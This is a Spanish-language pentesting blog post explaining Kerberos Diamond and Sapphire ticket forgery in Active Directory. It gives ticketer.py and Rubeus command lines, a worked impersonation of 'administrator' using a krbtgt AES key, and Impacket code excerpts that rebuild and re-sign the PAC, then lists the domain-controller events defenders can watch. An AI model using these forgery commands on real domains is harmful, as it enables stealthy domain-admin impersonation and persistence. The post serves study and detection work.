



---

layout: post
title: Diamond Y Sapphire Tickets
lang: es
lang-ref: diamonds-sapphire-tickets
categories: [Windows security]
tags: [windows, cybersecurity, kerberos, red team, pentesting]

---

# Kerberos Diamond y Sapphire Tickets

Como sabes, uno de los enfoques para la persistencia en un entorno Windows Active Directory son las conocidas técnicas Golden Ticket y Silver Ticket. En post explotación, una vez que se tienen suficientes privilegios en un DC, es posible volcar *ntds.dit* y obtener *krbtgt* Kerberos Keys. Como sabes, sus claves Kerberos se utilizan para cifrar los TGT y firmar los PAC. Entonces, al disponer de las claves de Kerberos, es posible construir cualquier TGT y/o PAC. Tener las claves de Kerberos de algún SPN nos permite falsificar STs para ese servicio.

El problema de los Golden Ticket y Silver es que son fácilmente detectables. Una vez que el KDC/servicio recibe un TGT/ST y los registros se reciben en el SIEM (u otras alternativas, podría ser directamente en el DC, por ejemplo), es fácil detectar y alertar que este TGT/ST en realidad no fue creado por el KDC. Por lo tanto, las soluciones de monitoreo capturarán Golden y Silver Tickets.

# Dimaond Ticket

Andrew Schwartz de TrustedSec y Charlie Clark de Semperis ([https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)) inventaron una variación del ataque Diamond PAC. La idea es simple, si se conocen las claves Kerberos de *krbtgt*, simplemente solicitando cualquier TGT y es posible modificar el PAC de forma arbitaria (volveiendo a cifrarlo y volviendo a firmarlo finalmente).

Ticketer y Rubeus pueden realizar este ataque.

```bash
ticketer.py -request -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'
```

```cmd
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```

Esta técnica es más sigilosa porque el TGT es real, fue creado por el KDC pero solo se modificó el PAC. Aunque este enfoque es más sigiloso, también puede (y será) detectado por las soluciones de monitoreo.

# Sapphire Ticket

Una nueva técnica es Sapphire Ticket. Creado por [Charlie Shutdown](https://twitter.com/_nwodtuhs), este enfoque es más sigiloso. Puede crear un TGT haciéndose pasar por cualquier usuario ensamblando TGT real y PAC real combinando S4U2Self + U2U. Esta nueva técnica me llamó la atención y quería estudiar y mostrar cómo funciona en sus entrañas.

Charlie extendió Ticketer de Impacket para agregar este ataque.

```bash
ticketer.py -request -impersonate 'domainadmin' -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -aesKey 'krbtgt AES key' -domain-sid 'S-1-5-21-...' 'ignored'
```

Se ignorarán los argumentos requeridos *-domain-sid* y el parámetro común de usuario a suplantar.

## Detalles Técnicos

Sapphire Tickets se basa en el *trick* S4U2Self + U2U. Usando U2U es posible solicitar S4U2Self sin tener un SPN. S4U2Self es uno de los mensajes en la extensión del protocolo S4U. S4U2Self permite obtener un ticket en nombre de otro usuario para sí mismo. Imagina un servicio con *Constrained Delegation* habilitada, pero un usuario se autentica mediante NTLM. El Servicio no puede delegar al usuario a otro servicio porque no tiene el ST del usuario (necesario para realizar S4U2Proxy). En este escenario, el servicio envía al KDC un KRB_TGS_REQ solicitando un ST de ese usuario para si mismo. De modo que, el servicio ahora tiene un ST para sí mismo en nombre del usuario.

Entonces, la idea es: solicitamos S4U2Self, obteniendo un ST como si el usuario se hubiera autenticado contra nosotros. Este ST tiene el PAC del usuario. Entonces, disponemos de su PAC porque podemos descifrarlo usando las claves Kerberos *krbtgt*. Ahora podemos modificar el PAC de un TGT existente y volver a cifrarlo y volver a firmarlo con las claves Kerberos *krbtgt*. La idea es así de simple.

## U2U

Imagina que un usuario quiere ofrecer algún servicio en su Máquina de Escritorio. Debido a que no es una máquina servidor, debemos presuponer que está más expuesta, por ejemplo, a ataques de red, no está bastionada, etc. En definitiva, deberíamos considerarla menos segura. Dado ese escenario, la especificación Kerberos 5 trajo una nueva idea. Básicamente, U2U ofrece al usuario la posibilidad de alojar un servicio sin ser realmente un servicio o tener un Principal, por lo que no tiene la responsabilidad de almacenar una clave maestra de larga duración. De esa forma, el KDC es nuevamente responsable de almacenar las claves "maestras" y el usuario puede entregar el servicio deseado. La idea es que dos usuarios puedan autenticarse y obtener una clave de sesión común.

Digamos que hay dos usuarios: el usuario A, que actúa como servidor, y el usuario B, que actúa como cliente.

El usuario A, el servidor, podría dar al usuario B su TGT. Debido a que el usuario B no conoce la clave de sesión de Kerberos del usuario A, en realidad no puede hacerse pasar por el usuario A en el realm. El usuario B va al KDC y pregunta por U2U, dando ambos tickets, tickets del usuario A y del usuario B.

El KDC generará una nueva clave de sesión, la cifrará dos veces, una con la clave de sesión del Usuario A y la otra con la clave de sesión del Usuario B. Finalmente, ambos usuarios pueden usar la clave de sesión recién generada para descifrarla, cada uno con su clave de sesión. De esa forma, el Usuario A y el Usuario B se autenticaron y derivaron la nueva clave de sesión que pueden usar para brindar confidencialidad y/o integridad a cualquier canal seguro que usaran. El usuario A no expone ninguna credencial "maestra" en su máquina de escritorio, solo la clave de sesión de corta duración.

Un diagrama sobre el proceso.


[](../../assets/img/diamond-sapphire-tickets/u2u_1.png){:target="\_blank"}

[](../../assets/img/diamond-sapphire-tickets/u2u_2.png){:target="\_blank"}

[](../../assets/img/diamond-sapphire-tickets/u2u_3.png){:target="\_blank"}

[](../../assets/img/diamond-sapphire-tickets/u2u_4.png){:target="\_blank"}

Pero esta es la teoría definida en la especificación de Kerberos 5. Echa un vistazo aquí [http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth](http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)

### Windows World

[](../../assets/img/diamond-sapphire-tickets/windows_icon.png){:target="\_blank"}

Finalmente, ¿cómo se implementa U2U en Windows? Es un poco diferente con respecto a lo que hemos explicado pero más fácil (en mi opinión). En un KRB_TGS_REG normal, en lugar de indicar un *Service Principal Name*, se indica un nombre de usuario en la cabezera Service Name, *sname*. Ya esta. El KDC seleccionará las claves Kerberos del usuario y generará un ticket de servicio acorde.

## S4U2Self

En la extensión S4U Kerberos de Windows, S4U2Self permite que un servicio obtenga un ticket de servicio para sí mismo en nombre del usuario. Básicamente, se trata de un ticket de servicio, ya que el usuario se habría autenticado en el servicio que solicita S4U2Self. Para solicitar S4U2Self, la cuenta debe tener al menos un nombre principal de servicio.

Usando *paDATA pA-FOR-USER* podemos solicitar S4U2Self.

## Juntemos las piezas del puzzle

Entonces, la idea es: nos autenticamos en el dominio con cualquier cuenta, solicitamos S4U2Self, pero no somos un servicio (es decir, no tenemos un SPN). En el Nombre del Servicio especificamos el usuario que vamos a usar para autenticar, realizando U2U. El resultado es que el KDC generará un ticket de servicio para nosotros en nombre del usuario. Ahora, tenemos el PAC del usuario objetivo :).

## Ejemplo Práctico

Estamos en la fase de post y tenemos las claves Kerberos (krbtgt).

Usando *ticketer* como anteriormente, solicitamos un Sapphire Ticket.

```bash
python3 ./ticketer.py -request -impersonate 'administrator' -domain 'contoso.local' -user 'emp.1' -password '1234' -aesKey '0c83d045c7428f2fee556ba0bbdf0109b3e39d38104b415fd91def363910b4b2' -domain-sid 'S-1-5-21-877380313-3945528518-819751691' 'ignored'
```

[](../../assets/img/diamond-sapphire-tickets/prac1.png){:target="\_blank"}

Si echamos un vistazo al ticket podemos ver que hemos tenido un ticket que tiene el PAC de la petición de suplantar, Administrador.

[](../../assets/img/diamond-sapphire-tickets/prac2_1.png){:target="\_blank"}
[](../../assets/img/diamond-sapphire-tickets/prac2_2.png){:target="\_blank"}

Pero este ticket es "real". Real de verdad, quiero decir que no hemos creado el ticket totalmente offline. Lo que sucedió es que nos autenticamos en el dominio con el usuario *emp.1*.

[](../../assets/img/diamond-sapphire-tickets/prac3.png){:target="\_blank"}

Y luego, en S4U2Self+U2U especificamos el nombre de usuario para obtener un ticket de servicio para, *administrador*, además solicitamos el ticket de servicio para un usuario (para nosotros), realizando *U2U*.

Entonces, el KDC nos dio un ticket de servicio encriptado con nuestra clave Kerberos, *emp.1*. Podemos descifrar el ST, obtener el PAC. Luego, en nuestro TGT modificamos el PAC con el PAC de administrador que obtuvimos antes y lo volvemos a encriptar y volver a firmar. La ventaja es que creamos un TGT para el usuario administrador utilizando "cosas" anteriores generadas por el KDC.

[](../../assets/img/diamond-sapphire-tickets/meme.jpeg){:target="\_blank"}

Echando un vistazo al [codigo](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518) de [Charlie Shutdown](https://twitter.com/_nwodtuhs) con su extension de *Ticketer*.

Podemos ver como extrae el PAC.

```python
[...]
            # 1. S4U2Self + U2U
            logging.info('\tRequesting S4U2self+U2U to obtain %s\'s PAC' % self.__options.impersonate)
            tgs, cipher, oldSessionKey, sessionKey = self.getKerberosS4U2SelfU2U()

            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
[...]            
```

Y el PAC del TGT que ya tenemos es (casi) cambiado como se haría normalmente en *Ticketer* con el nuevo PAC obtenido de S4U2Self+U2U tras actualizar *pacInfos*.

Además, algunas banderas siempre están configuradas: Forwadable, Proxiable, Renewable, Pre-Authent

```python
[...]
            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]

            # Let's extend the ticket's validity a lil bit
            # I don't think this part should be left in the code. The whole point of doing a sapphire ticket is stealth, extending ticket duration is not the way to go
            # encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            # encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)

            # Opening PAC
            adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
            pacType = pac.PACTYPE(adIfRelevant[0]['ad-data'].asOctets())
            pacInfos = dict()
            buff = pacType['Buffers']

            # clearing the signatures so that we can sign&encrypt later on
            logging.info("\tClearing signatures")
            for bufferN in range(pacType['cBuffers']):
                infoBuffer = pac.PAC_INFO_BUFFER(buff)
                data = pacType['Buffers'][infoBuffer['Offset'] - 8:][:infoBuffer['cbBufferSize']]
                buff = buff[len(infoBuffer):]
                if infoBuffer['ulType'] in [PAC_SERVER_CHECKSUM, PAC_PRIVSVR_CHECKSUM]:
                    checksum = PAC_SIGNATURE_DATA(data)
                    if checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes256.value:
                        checksum['Signature'] = '\x00' * 12
                    elif checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes128.value:
                        checksum['Signature'] = '\x00' * 12
                    else:
                        checksum['Signature'] = '\x00' * 16
                    pacInfos[infoBuffer['ulType']] = checksum.getData()
                else:
                    pacInfos[infoBuffer['ulType']] = data
[...]
newFlags = [TicketFlags.forwardable.value, TicketFlags.proxiable.value, TicketFlags.renewable.value, TicketFlags.pre_authent.value]
[...]
else:
            encTicketPart = EncTicketPart()

            flags = list()
            flags.append(TicketFlags.forwardable.value)
            flags.append(TicketFlags.proxiable.value)
            flags.append(TicketFlags.renewable.value)
            if self.__domain == self.__server:
                flags.append(TicketFlags.initial.value)
            flags.append(TicketFlags.pre_authent.value)
            encTicketPart['flags'] = encodeFlags(flags)
            encTicketPart['key'] = noValue
            encTicketPart['key']['keytype'] = kdcRep['ticket']['enc-part']['etype']

            if encTicketPart['key']['keytype'] == EncryptionTypes.aes128_cts_hmac_sha1_96.value:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])
            elif encTicketPart['key']['keytype'] == EncryptionTypes.aes256_cts_hmac_sha1_96.value:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(32)])
            else:
                encTicketPart['key']['keyvalue'] = ''.join([random.choice(string.ascii_letters) for _ in range(16)])

            encTicketPart['crealm'] = self.__domain.upper()
            encTicketPart['cname'] = noValue
            encTicketPart['cname']['name-type'] = PrincipalNameType.NT_PRINCIPAL.value
            encTicketPart['cname']['name-string'] = noValue
            encTicketPart['cname']['name-string'][0] = self.__target

            encTicketPart['transited'] = noValue
            encTicketPart['transited']['tr-type'] = 0
            encTicketPart['transited']['contents'] = ''
            encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
            # Let's extend the ticket's validity a lil bit
            encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)
            encTicketPart['authorization-data'] = noValue
            encTicketPart['authorization-data'][0] = noValue
            encTicketPart['authorization-data'][0]['ad-type'] = AuthorizationDataType.AD_IF_RELEVANT.value
            encTicketPart['authorization-data'][0]['ad-data'] = noValue
[...]
```

# Eventos

El DC genera los siguientes eventos.

Primero el de autenticación debido a AS_REQ, ID de evento **4768**.

```
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		Administrator
	Supplied Realm Name:	CONTOSO
	User ID:			CONTOSO\Administrator

Service Information:
	Service Name:		krbtgt
	Service ID:		CONTOSO\krbtgt

Network Information:
	Client Address:		::1
	Client Port:		0

Additional Information:
	Ticket Options:		0x40810010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Pre-Authentication Type:	2

Certificate Information:
	Certificate Issuer Name:		
	Certificate Serial Number:	
	Certificate Thumbprint:		

Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

Y es seguido inmediatamente por un ID de evento **4769** debido a la TGS_REQ usando S42Self+U2U se realiza inmediatamente para solicitar el ST.

```
A Kerberos service ticket was requested.

Account Information:
	Account Name:		Administrator@CONTOSO.LOCAL
	Account Domain:		CONTOSO.LOCAL
	Logon GUID:		{1d74b519-9c12-df9d-0834-823dc4d8e26b}

Service Information:
	Service Name:		DC-01$
	Service ID:		CONTOSO\DC-01$

Network Information:
	Client Address:		::1
	Client Port:		0

Additional Information:
	Ticket Options:		0x40810000
	Ticket Encryption Type:	0x12
	Failure Code:		0x0
	Transited Services:	-

This event is generated every time access is requested to a resource such as a computer or a Windows service.  The service name indicates the resource to which access was requested.

This event can be correlated with Windows logon events by comparing the Logon GUID fields in each event.  The logon event occurs on the machine that was accessed, which is often a different machine than the domain controller which issued the service ticket.

Ticket options, encryption types, and failure codes are defined in RFC 4120.
```

Como puede ver, la cuenta es Administrador y el servicio es la cuenta de equipo del KDC. Recuerda que no hemos especificado un SPN, usamos un nombre de usuario en el campo *sname*.

Ahora, blue teamers investigad más y crear una Regla Sigma :P

# Referencias:

1. [https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)
2. [https://learn.microsoft.com/es-es/openspecs/windows_protocols/ms-kile/2a32282e-dd48-4ad9-a542-609804b02cc9](https://learn.microsoft.com/es-es/openspecs/windows_protocols/ms-kile/2a32282e-dd48-4ad9-a542-609804b02cc9)
3. [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557)
4. [https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/diamond.md](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/diamond.md)
5. [https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/sapphire.md](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/sapphire.md)
6. [https://github.com/SecureAuthCorp/impacket/pull/1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
7. [https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518](https://github.com/ShutdownRepo/impacket/blob/sapphire-tickets/examples/ticketer.py#L518)
8. [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos#decrypt-krb5-traffic](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos#decrypt-krb5-traffic)
9. [https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7](https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7)
10. [https://www.tarlogic.com/es/blog/como-funciona-kerberos/](https://www.tarlogic.com/es/blog/como-funciona-kerberos/)
11. [https://www.thehacker.recipes/ad/movement/kerberos](https://www.thehacker.recipes/ad/movement/kerberos)
12. [http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth](http://www.di-srv.unisa.it/~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)
13. [https://twitter.com/snovvcrash/status/1576640678410432512]( https://twitter.com/snovvcrash/status/1576640678410432512)
14. [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)
15. [https://medium.com/@robert.broeckelmann/kerberos-wireshark-captures-a-windows-login-example-151fabf3375a](https://medium.com/@robert.broeckelmann/kerberos-wireshark-captures-a-windows-login-example-151fabf3375a)


